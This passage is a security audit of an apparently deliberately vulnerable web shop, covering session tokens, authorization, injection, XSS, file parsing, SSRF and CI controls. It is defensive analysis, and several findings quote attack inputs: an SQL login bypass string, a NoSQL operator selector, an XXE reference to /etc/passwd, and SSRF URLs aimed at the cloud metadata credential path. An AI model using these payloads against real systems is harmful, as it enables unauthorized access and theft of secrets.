
The hardcoded key assignment that breaks the signing boundary:

```ts
export const privateKey =
  '[PEM PRIVATE KEY — REDACTED]...'  // 1704 chars
```

**Relevant findings**

- 🔴 [F-005](#f-005) — Hardcoded RSA private key at `lib/insecurity.ts:23` enables universal JWT forgery.
- 🔴 [F-028](#f-028) — Hardcoded Ethereum wallet mnemonic at `routes/checkKeys.ts:10` exposes a second committed secret.

<a id="732-session-token-validation-jwt-based"></a>

#### 7.3.2 Session Token Validation (JWT Based)

**Status:** 🔴 Unsafe - `express-jwt@0.1.3` without an `algorithms` restriction accepts `alg:none`, allowing signature-free tokens.

`lib/insecurity.ts:54` configures `express-jwt` as the protected-route middleware. The configuration passes only the public key; no `algorithms` property is set. `jws.verify()` at `lib/insecurity.ts:57-58` additionally accepts the decoded header algorithm value without pinning to `RS256`.

The diagram shows the validation path under attack:

```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant API
    Note over API: express-jwt middleware
    participant Lib
    Note over Lib: lib/insecurity.ts:54

    alt Current state
        Attacker->>API: Authorization: Bearer header.payload. (alg=none, empty sig)
        API->>Lib: jws.verify(token, key, {algorithms: undefined})
        Lib-->>API: Valid - no algorithm check
        API-->>Attacker: 200 OK - route allowed
    else After mitigation
        Attacker->>API: Same alg:none token
        API->>Lib: Verify with algorithms:["RS256"] pinned
        Lib-->>API: Rejected - algorithm not allowed
        API-->>Attacker: 401 Unauthorized
    end
```

**Security assessment**

`express-jwt@0.1.3` (current: `8.4.1`) predates the mandatory `algorithms` field. An attacker crafts a token with `"alg": "none"` in the header, an empty signature, and any `role` claim. The verifier at `lib/insecurity.ts:54-58` accepts it. This finding is independent of the committed private key - even after key rotation, the `alg:none` bypass allows forging tokens without key material.

The vulnerable middleware configuration:

```ts
export const isAuthorized = () => expressJwt({
  secret: publicKey   // no algorithms: ['RS256'] restriction
})
```

**Relevant findings**

- 🔴 [F-006](#f-006) — `alg:none` bypass via `express-jwt@0.1.3` at `lib/insecurity.ts:54`.
- 🟠 [F-049](#f-049) — JWT role claims are not validated against the database at request time, allowing stale privilege escalation.

<a id="733-session-token-storage-browser-localstorage"></a>

#### 7.3.3 Session Token Storage (Browser localStorage)

**Status:** 🔴 Unsafe - tokens in `localStorage` are readable by any JavaScript in the page's origin, including injected XSS payloads.

⚠ **Anti-pattern:** JWT in localStorage

`login.component.ts:101` stores the JWT returned by the login API in `localStorage`: `this.localStorage.setItem('token', result.authentication.token)`. `request.interceptor.ts:13` reads it back and attaches it as a `Bearer` token to every subsequent API request.

**Security assessment**

`localStorage` is accessible to any script running in the same origin, including attacker-injected payloads from the XSS findings in [§7.7](#77-output-encoding-and-rendering-controls). The theft sequence is: (1) attacker triggers stored XSS via a malicious product description; (2) victim browser executes `localStorage.getItem('token')`; (3) token is exfiltrated to an attacker-controlled endpoint; (4) attacker replays the token for the full 6-hour lifetime with no server-side detection.

An `HttpOnly Secure SameSite=Strict` cookie would prevent JavaScript access, eliminating the XSS-to-token-theft chain.

**Relevant findings**

- 🔴 [F-001](#f-001) — JWT stored in `localStorage` at `login.component.ts:101`.
- 🟠 [F-002](#f-002) — Duplicate storage finding at `request.interceptor.ts:13` confirming the pattern across components.

<a id="734-session-token-revocation"></a>

#### 7.3.4 Session Token Revocation

**Status:** 🔴 Missing - no server-side revocation mechanism exists; `localStorage.removeItem('token')` on the client has no effect on the server.

`lib/insecurity.ts:72` maintains an `authenticatedUsers` in-memory map that associates tokens with user objects. This map is populated on login but is never cleared on logout - logout is client-side only (deleting the token from `localStorage`). There is no `/rest/user/logout` endpoint that invalidates the server-side map entry.

**Security assessment**

An attacker who obtains a JWT via XSS-to-localStorage theft retains access for the full 6-hour expiry window even if the victim logs out. The in-memory map also does not survive server restarts, meaning tokens minted before a restart become orphaned - a secondary issue, not a security control.

**Relevant findings**

- 🔴 [F-001](#f-001) — JWT theft enabled by `localStorage` storage persists through user-initiated logout.
- 🟠 [F-002](#f-002) — Same token storage pattern in the HTTP interceptor extends the scope.

<a id="735-session-token-expiry"></a>

#### 7.3.5 Session Token Expiry

**Status:** 🟡 Partial - a 6-hour expiry is set in the JWT payload, but forged tokens can carry any expiry the attacker chooses.

`lib/insecurity.ts:issueAuthToken()` sets `{ expiresIn: '6h' }` via `jsonwebtoken`. The `express-jwt` middleware at `lib/insecurity.ts:54` validates the `exp` claim when it reads a genuine token.

**Security assessment**

The 6-hour expiry is the only time-based constraint on session lifetime. Because the private key is public and the algorithm check is absent, an attacker can mint a token with `exp: 9999999999` (year 2286) that the verifier accepts indefinitely. Expiry is a partial control only when the signing boundary is intact.

**Relevant findings**

- 🔴 [F-005](#f-005) — Forged tokens carry any expiry the attacker sets; the 6-hour constraint does not apply.

### 7.4 Authorization Controls

**Verdict:** 🟠 Weak

**Controls covered:**

- [7.4.1 Role-Based Access Control](#741-role-based-access-control)
- [7.4.2 Object-Level Authorization (IDOR)](#742-object-level-authorization-idor)

**Implemented controls:** `isAuthorized()` middleware from `lib/insecurity.ts` enforces JWT presence on protected routes; `role` claim (`admin` / `customer`) encoded in JWT payload

**Assessment:** Role-level access control at the route boundary is structurally present but ineffective due to the broken signing boundary in [§7.3](#73-session-and-token-controls). Object-level authorization is absent: any authenticated user can substitute an arbitrary object ID in address, payment, order, memory, and wallet endpoints and receive or modify data belonging to another user.

<a id="741-role-based-access-control"></a>

#### 7.4.1 Role-Based Access Control

**Status:** 🟠 Weak - the `role` claim in the JWT is checked but can be forged via the committed private key or the `alg:none` bypass.

`isAuthorized()` at `lib/insecurity.ts:54` decodes the JWT and exposes the `role` claim to downstream handlers. Admin-only endpoints check `req.user.role === 'admin'` before proceeding. The role is not re-validated against the database at request time.

**Security assessment**

The role check is structurally correct but bypassed by both 🔴 [F-005](#f-005) (committed private key) and 🔴 [F-006](#f-006) (`alg:none`). Either path allows minting a token with `role: "admin"` without user interaction. `POST /api/Users` does not exclude the `role` field from mass-assignment (🔴 [F-009](#f-009) — Mass Assignment: role Field Writable — `server.ts:483` and 🔴 [F-013](#f-013) — Mass Assignment Admin Role — `server.ts:499`), allowing any user to self-assign admin role at registration.

**Relevant findings**

- 🔴 [F-009](#f-009) — Mass assignment: `role` field writable via `POST /api/Users` at `server.ts:483`.
- 🔴 [F-013](#f-013) — Mass assignment admin role via user registration at `server.ts:499`.
- 🔴 [F-048](#f-048) — Client-side Angular route guards at `app.guard.ts:17` are bypassable without server-side authorization.
- 🟠 [F-049](#f-049) — JWT role claims not validated against the database at request time.

<a id="742-object-level-authorization-idor"></a>

#### 7.4.2 Object-Level Authorization (IDOR)

**Status:** 🔴 Missing - endpoints accept any object ID from the request path or body without verifying the authenticated user owns that object.

`routes/address.ts`, `routes/payment.ts`, `routes/order.ts`, `routes/wallet.ts`, `routes/memory.ts`, `routes/basketItems.ts`, and related handlers perform database lookups using the caller-supplied ID. None of them include an ownership predicate (`WHERE userId = req.user.id`).

**Security assessment**

An authenticated user at `routes/address.ts:11` can substitute any `addressId` in the path and retrieve another user's delivery address. The same pattern applies to payment card references, order history, wallet balance, and deluxe membership status. There are 18 such endpoints identified across the application.

**Relevant findings**

- 🔴 [F-007](#f-007) — Insecure Direct Object Reference across 18 endpoints covering address, payment, order, wallet, and memory resources.

### 7.5 Query Construction and Data Access Controls

**Verdict:** 🔴 Unsafe

**Controls covered:**

- [7.5.1 SQL Query Construction (Sequelize + Raw Queries)](#751-sql-query-construction-sequelize-raw-queries)
- [7.5.2 NoSQL Query Construction (MarsDB)](#752-nosql-query-construction-marsdb)

**Implemented controls:** Sequelize 6.37.3 ORM available and used for most entity operations; MarsDB for in-memory chatbot/memory storage

**Assessment:** Two confirmed SQL injection points exist on the application's most-trafficked endpoints - authentication and the primary product search. Both bypass the Sequelize ORM in favour of raw query strings with string interpolation. The NoSQL layer in MarsDB additionally accepts a user-controlled selector structure that allows operator injection.

<a id="751-sql-query-construction-sequelize-raw-queries"></a>

#### 7.5.1 SQL Query Construction (Sequelize + Raw Queries)

**Status:** 🔴 Unsafe - login and search routes bypass the ORM and interpolate user input directly into SQL strings.

Sequelize models in `models/` generate parameterized queries for most CRUD operations. Two routes deviate: `routes/login.ts:34` builds the authentication query with `models.sequelize.query()` and a template literal; `routes/search.ts:23` does the same for the product search query. These are the two highest-traffic entry points in the application.

The product search route illustrates the raw-string construction that bypasses the ORM:

```ts
models.sequelize.query(
  `SELECT * FROM Products WHERE ((name LIKE '%${criteria}%'
    OR description LIKE '%${criteria}%') AND deletedAt IS NULL)
   ORDER BY name`)
```

**Security assessment**

`routes/login.ts:34` interpolates `req.body.email` without sanitization. The payload `' OR '1'='1` short-circuits the WHERE clause and returns the first `Users` row, which is the seeded admin account. `routes/search.ts:23` interpolates `req.query.q` directly; a UNION-based payload can exfiltrate the full Users table including `MD5` hashes.

**Relevant findings**

- 🔴 [F-004](#f-004) — SQL injection in the login query allows authentication bypass without credentials.
- 🔴 [F-008](#f-008) — UNION-based SQL injection in the product search enables full database exfiltration.

<a id="752-nosql-query-construction-marsdb"></a>

#### 7.5.2 NoSQL Query Construction (MarsDB)

**Status:** 🔴 Unsafe - `routes/updateProductReviews.ts:18` passes a user-controlled MarsDB selector, enabling mass update via `multi:true`.

MarsDB backs the in-memory product review store. `routes/updateProductReviews.ts:18` calls `db.update(req.body.id, ...)` where `req.body.id` is the product review selector supplied by the caller. MarsDB supports MongoDB-style selectors including operators like `$gt` and `$regex`.

**Security assessment**

A caller who submits `{"id": {"$gt": ""}}` as the selector matches all reviews in the database. Combined with `multi: true` in the update options, this overwrites every product review in one request. The selector field is not validated against a whitelist of scalar ID values before it is passed to MarsDB.

**Relevant findings**

- 🔴 [F-025](#f-025) — NoSQL injection via user-controlled MarsDB selector at `routes/updateProductReviews.ts:18`.

### 7.6 Input Boundary Validation Controls

**Verdict:** 🟠 Weak

**Controls covered:**

- [7.6.1 Validation Approach](#761-validation-approach)
- [7.6.2 Input Validation and Sanitization](#762-input-validation-and-sanitization)

**Implemented controls:** `sanitize-html@1.4.2` used in some response paths; `sanitize-filename@1.6.3` for uploaded file names; `sanitizeSecure()` recursive function in `lib/insecurity.ts`

**Assessment:** No global input validation middleware is registered. Critical paths - login email, product search query, profile username - receive no sanitization. The outdated `sanitize-html@1.4.2` has documented bypass techniques. The profile username field at `routes/userProfile.ts:62` is evaluated via `eval()` rather than any validator, creating a direct code-execution path.

<a id="762-input-validation-and-sanitization"></a>

#### 7.6.1 Validation Approach

This codebase applies input validation within individual route handlers and parsing layers (see the boundary-specific sub-blocks below) rather than through a single application-wide validation schema enforced across all endpoints.

**Security assessment**

_Not assessed in detail; see the control overview in [§7.1](#71-security-control-overview)._

**Relevant findings**

- None identified for this control.
#### 7.6.2 Input Validation and Sanitization

**Status:** 🟠 Weak - sanitization is applied inconsistently and the available sanitizer is critically outdated.

`sanitize-html@1.4.2` is imported in `lib/insecurity.ts` and used in some API response paths. `sanitize-filename@1.6.3` normalizes uploaded file names before they are written to disk. The recursive `sanitizeSecure()` function applies `sanitize-html` to nested objects. However, `routes/login.ts`, `routes/search.ts`, and the B2B order body receive no input validation before they reach their respective sinks.

**Security assessment**

- `sanitize-html@1.4.2` is approximately 8 major versions behind the current `2.x` line. Known bypass techniques affect the 1.x series.
- No schema validation library (joi, zod, ajv) is registered as global middleware. Each route is responsible for its own validation, and several omit it entirely.
- The most severe omission is `routes/userProfile.ts:62` (addressed in [§7.6.3](#763-server-side-code-evaluation-notevil-sandbox)), where the absence of validation leads directly to code execution rather than injection.

**Relevant findings**

- 🔴 [F-012](#f-012) — Server-side template injection via `eval()` at `routes/userProfile.ts:62`.

<a id="763-server-side-code-evaluation-notevil-sandbox"></a>

#### 7.6.3 Server-Side Code Evaluation (notevil sandbox)

**Status:** 🔴 Unsafe - two independent code-evaluation sinks exist; the `notevil` sandbox is escapable and `eval()` in the profile route has no sandbox.

`routes/userProfile.ts:62` calls `eval(req.body.username)` directly on the user-supplied profile name. `routes/b2bOrder.ts:23` passes the `orderLinesData` field to `vm.runInContext(safeEval(orderLinesData), ctx)`, where `safeEval` is the `notevil` package.

**Security assessment**

Two independent paths to server-side code execution:

- `routes/userProfile.ts:62`: `eval()` with no sandbox. Any JavaScript the attacker supplies in the `username` field executes with the full Node\.js process privileges.
- `routes/b2bOrder.ts:23`: `notevil` is a known-escape-prone sandbox (CVE history). A crafted `orderLinesData` payload can escape the VM context and access the global `process` object.

The `eval()` call at `routes/userProfile.ts:62`:

```ts
const updatedUser = await UserModel.update(
  { username: eval(username) },   // username = req.body.username
  { where: { id: req.user?.id } }
)
```

**Relevant findings**

- 🔴 [F-012](#f-012) — Server-side code execution via `eval()` at `routes/userProfile.ts:62`.
- 🔴 [F-011](#f-011) — JavaScript sandbox escape via `notevil` at `routes/b2bOrder.ts:23`.

### 7.7 Output Encoding and Rendering Controls

**Verdict:** 🔴 Unsafe

**Controls covered:**

- [7.7.1 XSS Prevention (Angular Template + DomSanitizer)](#771-xss-prevention-angular-template-domsanitizer)
- [7.7.2 Output Encoding and CSP Header Injection](#772-output-encoding-and-csp-header-injection)

**Implemented controls:** Angular template binding provides default context-aware escaping for interpolation expressions; `sanitize-html@1.4.2` used in some backend responses

**Assessment:** Angular's template engine escapes interpolation by default, providing baseline protection for data rendered through `{{ }}` bindings. This protection is deliberately bypassed in two components via `bypassSecurityTrustHtml()`. The Helmet XSS filter is disabled. A stored XSS path via a user-controlled CSP response header makes the application's own user-profile feature an XSS delivery mechanism.

<a id="771-xss-prevention-angular-template-domsanitizer"></a>

#### 7.7.1 XSS Prevention (Angular Template + DomSanitizer)

**Status:** 🔴 Unsafe - `DomSanitizer.bypassSecurityTrustHtml()` is called on attacker-controlled product description and search result content.

Angular's `DomSanitizer` sanitizes HTML before it is bound to `[innerHTML]`. `search-result.component.ts:132` calls `this.sanitizer.bypassSecurityTrustHtml(product.description)` before binding the product description. `search-result.component.ts:170` applies the same bypass to the unsanitized search query reflected in the results heading.

**Security assessment**

- `search-result.component.ts:132`: product descriptions from the database are marked trusted before HTML binding. A malicious product description (inserted via an admin-capable SQL injection or directly) renders as live HTML including `<script>` tags.
- `search-result.component.ts:170`: the search parameter from `req.query.q` flows through the API response into the results heading with `bypassSecurityTrustHtml`. This is a reflected DOM XSS vector affecting every unauthenticated visitor.

**Relevant findings**

- 🔴 [F-020](#f-020) — Stored XSS in product descriptions via `bypassSecurityTrustHtml` at `search-result.component.ts:132`.
- 🔴 [F-021](#f-021) — Reflected DOM XSS via unsanitized search query at `search-result.component.ts:170`.
- 🔴 [F-053](#f-053) — DOM XSS via last-login IP from JWT payload at `last-login-ip.component.ts:39`.

<a id="772-output-encoding-and-csp-header-injection"></a>

#### 7.7.2 Output Encoding and CSP Header Injection

**Status:** 🔴 Unsafe - the Helmet XSS filter is disabled and a user-controlled value is interpolated into a CSP response header.

`server.ts:187` contains a commented-out `app.use(helmet.xssFilter())` call. `routes/userProfile.ts:88` constructs a per-response CSP header using the user's stored profile image URL: `` const CSP = `img-src 'self' ${user?.profileImage}; script-src 'self' 'unsafe-eval'` ``.

**Security assessment**

If an attacker sets their profile image URL to a value containing a semicolon followed by `script-src 'unsafe-inline'`, the injected string extends the CSP header and enables inline script execution in the victim's browser. This is a stored XSS vector via HTTP response header injection, distinct from the template-binding bypass in [§7.7.1](#771-xss-prevention-angular-template-domsanitizer).

The header construction at `routes/userProfile.ts:88`:

```ts
res.set('Content-Security-Policy',
  `img-src 'self' ${user?.profileImage}; script-src 'self' 'unsafe-eval'`)
```

**Relevant findings**

- 🔴 [F-020](#f-020) — CSP header injection path amplifies stored XSS impact.
- 🟠 [F-026](#f-026) — Missing global CSP header leaves script execution unrestricted.

### 7.8 Browser and Cross-Origin Controls

**Verdict:** 🔴 Unsafe

**Controls covered:**

- [7.8.1 CORS Policy](#781-cors-policy)
- [7.8.2 Content Security Policy](#782-content-security-policy)

**Implemented controls:** `helmet.noSniff()` - `X-Content-Type-Options: nosniff`; `helmet.frameguard()` - `X-Frame-Options: SAMEORIGIN`; `cors` module present

**Assessment:** Two of the six Helmet sub-modules are enabled. CORS is configured with wildcard origin, permitting cross-origin requests from any website. No global CSP is set - the only CSP header in the application is the per-user, user-injectable one addressed in [§7.7.2](#772-output-encoding-and-csp-header-injection).

<a id="781-cors-policy"></a>

#### 7.8.1 CORS Policy

**Status:** 🔴 Unsafe - `app.use(cors())` with no `origin` restriction allows any web page on the internet to read cross-origin responses.

`server.ts:181-182` calls `app.options('*', cors())` and `app.use(cors())` with the default `cors()` configuration. The default passes all origins via `Access-Control-Allow-Origin: *`.

**Security assessment**

A wildcard CORS policy on a cookie-less API that uses `Authorization` header tokens does not allow cookie-based cross-site request forgery. However, it does allow any page to read the response body from API requests. If an XSS payload on a third-party site can cause an authenticated Juice Shop session to make a credentialed fetch (using the stored `localStorage` token), the attacker can read the response. The absence of `credentials: 'include'` for cookie-based flows is a partial mitigation that does not apply to the token-in-header pattern.

**Relevant findings**

- No dedicated finding in the threat model for wildcard CORS. This control gap amplifies the impact of findings 🔴 [F-001](#f-001) — JWT Bearer Token Stored in localStorage — `login.component.ts:101` and 🔴 [F-020](#f-020) — Stored XSS in Product Descriptions — `search-result.component.ts:132`.

<a id="782-content-security-policy"></a>

#### 7.8.2 Content Security Policy

**Status:** 🔴 Missing - `helmet.contentSecurityPolicy()` is not called; there is no global CSP protecting the Angular SPA's document origin.

`server.ts` applies `helmet.frameguard()` and `helmet.noSniff()` but does not call `helmet.contentSecurityPolicy()`. The only CSP present in the application is the per-user, user-injectable header in `routes/userProfile.ts:88`, which is the XSS delivery mechanism rather than a control.

**Security assessment**

Without a CSP, the Angular SPA's origin has no restriction on which scripts can execute, which URIs can be fetched, or where forms can submit. A stored XSS payload in a product description renders and executes inline with no browser-level containment. A baseline CSP (`script-src 'self'` with a nonce or hash) would prevent the `bypassSecurityTrustHtml` findings from resulting in arbitrary script execution.

**Relevant findings**

- 🔴 [F-020](#f-020) — Stored XSS execution would be blocked by a strict `script-src` CSP directive.
- 🔴 [F-021](#f-021) — Reflected DOM XSS execution likewise constrained by CSP.

### 7.9 Cryptography Secrets and Data Protection

**Verdict:** 🔴 Unsafe

**Controls covered:**

- [7.9.1 Secret Management](#791-secret-management)
- [7.9.2 Password Storage](#792-password-storage)

**Implemented controls:** None - all secrets are hardcoded constants in source files; password hashing exists but uses an insecure algorithm

**Assessment:** This is the most comprehensively broken control domain. Four distinct secrets are hardcoded in source files committed to a public repository. No environment variable injection, no secrets manager, no HSM, and no key rotation mechanism exists. Password hashing is present but uses unsalted `MD5`, which provides no practical protection against offline recovery.

<a id="791-secret-management"></a>

#### 7.9.1 Secret Management

**Status:** 🔴 Unsafe - four secrets are committed to the public GitHub repository; rotation is not possible without a code change and deployment.

`lib/insecurity.ts` exports four constants that constitute the application's secret material: the RSA private key at line 23, the HMAC signing secret at line 44, the cookie parser secret embedded in `server.ts:289`, and support-user credentials stored inline at `routes/login.ts:60-66`.

**Security assessment**

All four secrets are permanently exposed in git history regardless of any subsequent commit. The chain of impact:

- RSA private key → any caller can forge admin JWTs (🔴 [F-005](#f-005) — Hardcoded RSA Private Key Enables Universal JWT Forgery — `lib/insecurity.ts:23`)
- HMAC secret → HMAC-signed request values can be forged
- Cookie secret → cookie signatures can be predicted
- Support credentials → direct account access for the support user

No secret store (AWS Secrets Manager, HashiCorp Vault, environment variable injection, or Kubernetes secret) is used anywhere in the codebase.

**Relevant findings**

- 🔴 [F-005](#f-005) — Hardcoded RSA private key enables universal JWT forgery.
- 🔴 [F-028](#f-028) — Hardcoded Ethereum wallet mnemonic at `routes/checkKeys.ts:10`.
- 🔴 [F-030](#f-030) — Hardcoded deployment email in public workflow at `.github/workflows/ci.yml:342`.

<a id="792-password-storage"></a>

#### 7.9.2 Password Storage

**Status:** 🔴 Unsafe - passwords are hashed with unsalted `MD5`; a database dump directly yields recoverable plaintexts for most common passwords.

`lib/insecurity.ts:43` implements `security.hash()` as a single call to `crypto.createHash('md5').update(data).digest('hex')`. This function is used for user passwords, security question answers, and the 2FA pre-image check.

**Security assessment**

`MD5` is a fast, non-key-derivation hash with no work factor. Precomputed rainbow tables cover most common passwords. NIST SP 800-63B requires adaptive key-derivation functions (bcrypt, scrypt, PBKDF2, or Argon2) with a work factor tuned so that enumeration of a stolen database takes years, not seconds. Replacing `security.hash()` with a bcrypt or Argon2 call is the minimum remediation; the 2FA pre-image check at `routes/2fa.ts:158` additionally requires migration to a constant-time comparison.

**Relevant findings**

- 🟠 [F-022](#f-022) — Unsalted MD5 password hashing at `lib/insecurity.ts:43`.
- 🟠 [F-036](#f-036) — Duplicate finding from data-layer STRIDE confirming the same primitive.

### 7.10 File Parser and Outbound Request Controls

**Verdict:** 🔴 Unsafe

**Controls covered:**

- [7.10.1 XML Parser Hardening (libxmljs2)](#7101-xml-parser-hardening-libxmljs2)
- [7.10.2 Archive Extraction (unzipper)](#7102-archive-extraction-unzipper)
- [7.10.3 Outbound Request Validation (SSRF)](#7103-outbound-request-validation-ssrf)

**Implemented controls:** `multer@1.4.5-lts.1` for multipart form parsing; `sanitize-filename@1.6.3` for uploaded file names; file-size limits applied by multer

**Assessment:** The file upload surface is the most dangerous attack boundary in the application. XML processing is explicitly configured with external entity resolution enabled. Archive extraction performs a path check that is bypassable on Windows-style paths. The profile image URL upload fetches arbitrary attacker-controlled URLs with no allowlist, blocklist, redirect-following limit, or DNS rebinding protection.

<a id="7101-xml-parser-hardening-libxmljs2"></a>

#### 7.10.1 XML Parser Hardening (libxmljs2)

**Status:** 🔴 Unsafe - `noent: true` is passed to `libxmljs2.parseXml()`, enabling external entity resolution (XXE).

`routes/fileUpload.ts:83` receives multipart XML uploads and parses them with `libxmljs2.parseXml(data, { noblanks: true, noent: true, nocdata: true })`. The `noent: true` option instructs `libxmljs2` to resolve external entity references, including `file://` and `http://` URIs in `DOCTYPE` declarations.

**Security assessment**

An attacker submits an XML file with a `DOCTYPE` that references `file:///etc/passwd`. The parser fetches and inlines the file content, which is then returned in the parsed output. The same technique works for `http://` entity references, making this endpoint a second SSRF vector on top of the profile image URL upload. The upload endpoint requires no authentication (🔴 [F-018](#f-018) — Missing Authentication on `/file-upload` Multipart Upload Endpoint — `server.ts:309`), so this is unauthenticated XXE and SSRF.

The parser configuration at `routes/fileUpload.ts:83`:

```ts
const parsed = libxml.parseXml(data, {
  noblanks: true,
  noent: true,    // enables external entity resolution
  nocdata: true
})
```

**Relevant findings**

- 🔴 [F-010](#f-010) — XXE via `libxmljs2` with `noent:true` on the unauthenticated upload endpoint.
- 🟠 [F-046](#f-046) — XML/YAML bomb DoS at the same endpoint; billion-laughs entity expansion causes event-loop exhaustion.

<a id="7102-archive-extraction-unzipper"></a>

#### 7.10.2 Archive Extraction (unzipper)

**Status:** 🔴 Unsafe - the path-containment check at `routes/fileUpload.ts:45` is bypassable on Windows-style paths, allowing Zip Slip arbitrary file writes.

`routes/fileUpload.ts` accepts `.zip` files and extracts them using `unzipper`. Before writing each entry, `routes/fileUpload.ts:45` checks that the resolved path starts with the expected base directory. The check uses `path.join()` without `path.normalize()` on Windows, allowing backslash-separated paths to escape the intended extraction directory.

**Security assessment**

A specially crafted ZIP archive containing an entry named `../../server.ts` (or a Windows variant with backslashes) writes the attacker-supplied content over an arbitrary file in the server's working directory. On the container as deployed, this can overwrite application source files or write to arbitrary locations accessible to the Node\.js process UID.

**Relevant findings**

- 🔴 [F-014](#f-014) — Zip Slip arbitrary file write via flawed path-containment check at `routes/fileUpload.ts:45`.

<a id="7103-outbound-request-validation-ssrf"></a>

#### 7.10.3 Outbound Request Validation (SSRF)

**Status:** 🔴 Missing - `routes/profileImageUrlUpload.ts:24` fetches a user-supplied URL with no validation.

`routes/profileImageUrlUpload.ts:24` calls `const response = await fetch(url)` where `url = req.body.imageUrl` is taken directly from the request body. No protocol allowlist, no IP blocklist, no private-range exclusion, and no redirect-following limit is applied.

**Security assessment**

An attacker submits `http://169.254.169.254/latest/meta-data/iam/security-credentials/` (AWS IMDSv1) or `http://localhost:3000/rest/admin/application-configuration` as the `imageUrl`. The server fetches the target, and the response content is stored as the user's profile image (or returned in error detail). This allows reading any HTTP resource accessible from the container's network namespace including internal metadata services and private IP ranges.

**Relevant findings**

- 🟠 [F-039](#f-039) — Server-side request forgery at `routes/profileImageUrlUpload.ts:24`.
- 🟠 [F-035](#f-035) — Unauthenticated public exposure of the encryption key directory at `server.ts:277`.
- 🟠 [F-038](#f-038) — Unauthenticated FTP and encryption key directory listing at `server.ts:269`.
- 🟠 [F-040](#f-040) — Unauthenticated exposure of encryption keys and JWT material at `server.ts:278`.
- 🟠 [F-041](#f-041) — Unauthenticated log file disclosure via user-controlled filename at `routes/logfileServer.ts:14`.

### 7.11 Operations Runtime and Supply Chain Controls

**Verdict:** 🟠 Weak

**Controls covered:**

- [7.11.1 Dependency Management](#7111-dependency-management)
- [7.11.2 Container Security](#7112-container-security)
- [7.11.3 CI/CD Pipeline Security](#7113-cicd-pipeline-security)
- [7.11.4 Audit Logging](#7114-audit-logging)

**Implemented controls:** CodeQL SAST in `.github/workflows/codeql-analysis.yml`; distroless runtime image (`gcr.io/distroless/nodejs24-debian12`); non-root UID 65532; Morgan combined-format access logging; CycloneDX SBOM generation in `Dockerfile`

**Assessment:** Runtime container security is the strongest control layer in the application: distroless image and non-root UID together prevent most post-exploitation persistence. Build and supply chain controls are weak: no lockfile, critically outdated JWT libraries, unpinned action references, and postinstall scripts executing as root during the Docker build. Audit logging covers access patterns but not security events.

<a id="7111-dependency-management"></a>

#### 7.11.1 Dependency Management

**Status:** 🔴 Unsafe - lockfile is disabled, critical JWT libraries are decades-old versions, and no automated update tooling is configured.

`.npmrc:1` sets `package-lock=false`, disabling lockfile generation. `package.json` declares `express-jwt@0.1.3` (current: `8.4.1`) and `jsonwebtoken@0.4.0` (current: `9.0.2`) - both are pinned to versions with known security issues and are missing a decade of security patches. `.github/dependabot.yml` exists but does not cover the full dependency graph.

**Security assessment**

Three independent supply-chain weaknesses compound:

- No lockfile means every `npm install` resolves the latest satisfying semver version for each transitive dependency. A compromised transitive package can be introduced silently.
- `express-jwt@0.1.3` lacks the mandatory `algorithms` parameter added in version `5.0.0`, which is the root cause of the `alg:none` bypass (🔴 [F-006](#f-006) — Insecure JWT Verification — `lib/insecurity.ts:54`).
- Dependabot covers only a subset of ecosystems in `.github/dependabot.yml` (🟡 [F-061](#f-061) — Dependabot Ecosystem Coverage Incomplete — .github/dependabot.yml), leaving gaps.

**Relevant findings**

- 🟠 [F-023](#f-023) — Disabled lockfile enforcement allows dependency substitution via `.npmrc:1`.
- 🟠 [F-033](#f-033) — `package-lock.json` disabled; lockfile integrity not enforced.
- 🟠 [F-034](#f-034) — Docker base image not digest-pinned at `Dockerfile:1` and `Dockerfile:23`.
- 🟡 [F-061](#f-061) — Dependabot ecosystem coverage incomplete.

<a id="7112-container-security"></a>

#### 7.11.2 Container Security

**Status:** 🟡 Partial - distroless runtime and non-root UID are strong positive controls; base images are tag-pinned without digest, and no `HEALTHCHECK` is defined.

The production `Dockerfile` uses a multi-stage build: the build stage is `node:24-alpine` and the runtime stage switches to `gcr.io/distroless/nodejs24-debian12` running as UID 65532. The distroless image contains no shell, no package manager, and no debugging tools, substantially limiting post-exploitation capability.

**Security assessment**

- Distroless + non-root UID 65532 are the application's strongest runtime controls. An attacker who achieves RCE via `eval()` or the `notevil` escape cannot spawn a shell, install tools, or escalate to root through standard shell tricks.
- `FROM node:24` at `Dockerfile:1` and `FROM gcr.io/distroless/nodejs24-debian12` at `Dockerfile:23` use mutable tags. An upstream image mutation (tag reassignment) would silently change the build content at next pull.
- No `HEALTHCHECK` instruction is defined, so container orchestrators cannot detect a degraded or exploited instance through the standard health mechanism.

**Relevant findings**

- 🟠 [F-034](#f-034) — Docker base image not digest-pinned; tag mutation enables silent supply-chain substitution.
- 🟢 [F-064](#f-064) — Missing `HEALTHCHECK` instruction in `Dockerfile`.

<a id="7113-cicd-pipeline-security"></a>

#### 7.11.3 CI/CD Pipeline Security

**Status:** 🟠 Weak - CodeQL SAST is a positive control; GitHub Actions workflows lack `permissions:` declarations and use mutable action tags.

`.github/workflows/ci.yml` runs CodeQL static analysis on every push and pull request. `.github/workflows/release.yml` builds and publishes the Docker image. Neither workflow file includes a top-level `permissions:` block, meaning the `GITHUB_TOKEN` inherits write-all permissions for the repository.

**Security assessment**

Three independent pipeline weaknesses:

- Missing `permissions: contents: read` at `ci.yml` and `release.yml` (🟠 [F-031](#f-031) — GitHub Actions workflow missing top-level permissions block — `ci.yml`) means any third-party action in the workflow can write to the repository, create releases, or modify pages.
- Third-party actions referenced as `@v2` and `@v3` mutable tags (🟠 [F-032](#f-032) — Third-party GitHub Action not pinned to commit SHA — `ci.yml:161`, 🟠 [F-017](#f-017) — Unpinned GitHub Action Tag Reference — `codeql-analysis.yml:23`) can be updated by the action author to inject malicious steps without the consumer's knowledge.
- `npm install --unsafe-perm` in `Dockerfile:5` (🟠 [F-024](#f-024) — Unsafe Postinstall Hook Execution During Production Docker Build — Dockerfile:5) runs postinstall scripts as root during the build, giving any malicious postinstall hook full container access at build time.

**Relevant findings**

- 🟠 [F-017](#f-017) — Unpinned GitHub Action tag reference in `codeql-analysis.yml:23`.
- 🟠 [F-024](#f-024) — Unsafe postinstall hook execution during Docker build at `Dockerfile:5`.
- 🟠 [F-029](#f-029) — `Dockerfile:5` uses `--unsafe-perm` flag.
- 🔴 [F-030](#f-030) — Hardcoded deployment email in public workflow at `ci.yml:342`.
- 🟠 [F-031](#f-031) — GitHub Actions workflow missing top-level `permissions` block.
- 🟠 [F-032](#f-032) — Third-party GitHub Action not pinned to a commit SHA.
- 🔴 [F-059](#f-059) — Container images published without signing or provenance attestation.
